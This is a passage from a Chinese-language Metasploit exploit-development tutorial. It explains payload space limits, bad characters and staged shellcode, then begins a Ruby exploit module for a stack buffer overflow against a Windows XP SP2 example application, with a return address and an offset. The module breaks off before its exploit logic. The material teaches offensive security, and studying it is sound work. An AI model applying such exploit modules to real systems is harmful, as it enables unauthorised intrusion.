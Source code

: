 上一节摘自`/exploit/windows/ftp`下的`freeftpd_user.rb`文件。列出的选项建议有效负载的空间应小于`800`字节，并且有效负载应避免使用`0x00`、`0x20`、`0x0a`和`0x0d`，它们分别是空字节、空格、换行符和回车符。

有关查找错误字符的更多信息，请访问：[http://resources.infosecinstitute.com/stack-based-buffer-overflow-in-win-32-platform-part-6-dealing-with-bad-characters-jmp-instruction/](http://resources.infosecinstitute.com/stack-based-buffer-overflow-in-win-32-platform-part-6-dealing-with-bad-characters-jmp-instruction/) 。

# 确定空间限制

`Payload field`中的`Space`变量定义为外壳代码保留的总大小。我们需要分配足够的空间来容纳`Payload`。如果`Payload`较大且分配的空间小于有效负载的外壳代码，则不会执行。此外，在编写自定义漏洞利用时，外壳代码应该尽可能小。我们可能会遇到这样的情况：可用空间仅为 200 字节，但可用外壳代码至少需要 800 字节的空间。在这种情况下，我们可以在缓冲区中安装一个小的第一阶段外壳代码，它将执行并下载第二个更大的阶段来完成利用。

有关各种有效载荷的较小外壳代码，请访问：[http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/) 。

# 编写 Metasploit 利用模块

让我们回顾一下我们的开发过程图，并检查我们是否能够完成模块：

![](img/b076501b-a46d-4a63-91ea-1e5a96a8bf9a.png)

我们可以看到，我们已经具备了开发 Metasploit 模块的所有基本要素。这是因为有效载荷的生成在 Metasploit 中是自动化的，并且可以动态更改。那么，让我们开始：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'                 => 'Stack Based Buffer Overflow Example', 
      'Description'    => %q{ 
         Stack Based Overflow Example Application Exploitation Module 
      }, 
      'Platform'             => 'win', 
      'Author'         => 
        [ 
          'Nipun Jaswal' 
        ], 
      'Payload' => 
      { 
      'space' => 1000, 
      'BadChars' => "\x00\xff", 
      }, 
      'Targets' => 
       [ 
             ['Windows XP SP2',{ 'Ret' => 0x71AB9372, 'Offset' => 520}] 
       ], 
      'DisclosureDate' => 'Mar 04 2018' 
   )) 
   register_options( 
```